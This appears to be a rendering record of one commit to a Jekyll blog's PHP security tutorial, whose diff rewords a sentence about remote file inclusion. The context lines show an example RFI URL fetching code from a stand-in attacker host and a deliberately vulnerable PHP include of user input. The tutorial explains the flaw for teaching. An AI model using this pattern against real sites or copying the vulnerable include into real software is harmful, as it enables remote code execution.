

Before and after one commit to 20kilograma/blog, a Jekyll site: the page built from php-sec.md, in a window 1280 px wide and 900 px high, scrolled down 8759 px. Shown: the whole window, without its empty margins (108-1169 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update php-sec.md

```diff
--- a/php-sec.md
+++ b/php-sec.md
@@ -175,4 +175,4 @@ When an attacker is exploiting RFI, he uses a remote file, while on the other si
 On the other hand, while exploiting RFI you can upload files from a remote server which in 99% of the cases will result in RCE(Remote Code Execution). Nowadays it's very rare to see RFI in the wild, because including files from remote location is disabled in PHP by default (<code>allow_url_include</code>).
 Example for RFI: <code>https://localhost/app.php?file=http://attackers.website.com/somemaliciousfile</code>. You could execute malicious code from the <code>somemaliciousfile</code> file and use it for malicious intention. <br>
 
-Take this code for example: <code>&lt;?php include $_GET['file']; ?&gt;</code>
+Take this one-liner for example: <code>&lt;?php include $_GET['file']; ?&gt;</code>
```
